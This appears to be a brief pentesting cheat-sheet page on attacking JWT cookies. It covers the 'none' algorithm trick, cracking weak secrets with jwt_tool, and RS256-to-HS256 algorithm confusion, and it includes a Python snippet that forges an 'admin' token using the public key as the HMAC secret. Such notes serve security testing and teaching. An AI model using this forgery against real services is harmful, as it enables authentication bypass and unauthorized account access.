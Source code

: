 # Cookies

## JWT token

### None algo 

Jwt cookies can be vulnerable if signature is not properly checked !
If so, we can modify the alg to none and delete the signature and modify the payload.

### Weak secret

We can crack the signature too with jwt tool https://github.com/ticarpi/jwt_tool

### RS256 to HS256

Misconfigured backend can be vunlerable if it doesnt check properly the return algo.
If we modify the algo from RS256 to HS256 and we use the public key as the secret, the backend will check the token with HS256 algo with the public key as the signature

HOW TO 

Save the key in a key.pem file
❗❗❗ Respect this format

	-----BEGIN PUBLIC KEY-----
	key
	-----END PUBLIC KEY----- 

```python
import jwt
public = open('key.pem','r').read()
public = "\n".join(public.split('\n'))+"\n"
print(jwt.encode({"username":"admin"}, key=public, algorithm='HS256')) 
```

